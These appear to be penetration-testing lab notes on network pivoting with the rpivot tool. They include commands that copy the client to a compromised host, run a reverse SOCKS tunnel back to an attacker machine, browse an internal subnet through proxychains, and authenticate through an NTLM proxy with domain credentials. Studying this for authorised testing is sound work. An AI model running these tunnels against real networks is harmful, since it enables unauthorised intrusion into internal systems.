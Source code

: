 Cloning rpivot
```
sudo git clone https://github.com/klsecservices/rpivot.git
```
```
sudo git clone https://github.com/klsecservices/rpivot.git
```

Installing Python2.7
```
sudo apt-get install python2.7
```


We can start our rpivot SOCKS proxy server to connect to our client on the compromised Ubuntu server using server.py.
```
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```


Before running client.py we will need to transfer rpivot to the target. We can do this using this SCP command:
```
scp -r rpivot <user>@<IpaddressOfTarget>:/home/<user>/
```

Running client.py from Pivot Target
```
python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
```

We will configure proxychains to pivot over our local server on 127.0.0.1:9050 on our attack host, which was initially started by the Python server.

Finally, we should be able to access the webserver on our server-side, which for an example is hosted on the internal network of 172.16.5.0/23 at 172.16.5.135:80 using proxychains and Firefox.

Browsing to the Target Webserver using Proxychains
```
proxychains firefox-esr 172.16.5.135:80
```


Similar to the pivot proxy above, there could be scenarios when we cannot directly pivot to an external server (attack host) on the cloud. Some organizations have HTTP-proxy with NTLM authentication configured with the Domain Controller. In such cases, we can provide an additional NTLM authentication option to rpivot to authenticate via the NTLM proxy by providing a username and password. In these cases, we could use rpivot's client.py in the following way:

Connecting to a Web Server using HTTP-Proxy & NTLM Auth
```
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```
------------------------------------------------------------------------------------- 
 
 ## basic machine enum tryhackme (windows) 
```
https://tryhackme.com/room/enumerationpe
```  
# basic local machine enumeration
